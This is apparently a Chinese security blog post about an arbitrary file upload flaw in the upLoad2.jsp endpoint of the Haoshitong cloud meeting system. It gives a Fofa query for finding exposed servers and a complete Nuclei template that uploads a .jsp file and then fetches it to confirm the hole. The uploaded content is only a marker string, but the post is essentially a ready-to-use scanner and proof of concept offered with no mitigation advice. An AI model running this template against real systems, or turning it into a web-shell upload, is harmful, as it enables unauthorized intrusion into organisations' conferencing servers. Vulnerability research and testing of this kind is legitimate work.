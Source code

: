 #  好视通云会议upLoad2.jsp文件任意文件上传漏洞   
原创 骇客安全  骇客安全   2025-02-06 16:03  
  
## 漏洞复现  
  
1、Fofa  
  
body="images/common/logina_1.gif"  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991NdhXhotHNkOAUDE04YPV2VODUaiaEXcX046Uj4vYNZFr9Mw4G6pvic4LsQNyhiaZv4PDFfTjVDwhmKg/640?wx_fmt=png&from=appmsg "null")  
  
```
id: haoshitong-fm-upload

info:
  name: haoshitong-fm-upload
  author: m0be1
  severity: critical

variables:
  filename: "{{to_lower(rand_base(5))}}"

http:
  - raw:
    - |
      POST /fm/systemConfig/upLoad2.jsp HTTP/1.1
      Host: {{Hostname}}
      Content-Type: multipart/form-data; boundary=1515df1sdfdsfddfs
      Accept-Encoding: gzip
      User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

      --1515df1sdfdsfddfs
      Content-Disposition: form-data; name="file"; filename="{{filename}}.jsp"
      Content-Type: application/octet-stream

      112
      --1515df1sdfdsfddfs--

    - |
      GET /fm/upload/{{filename}}.jsp HTTP/1.1
      Host: {{Hostname}}
      User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3
      Accept: */*

    matchers:
      - type: dsl
        dsl:
          - 'status_code==200 && contains_all(body_2,"112")'


```  
  
  
  
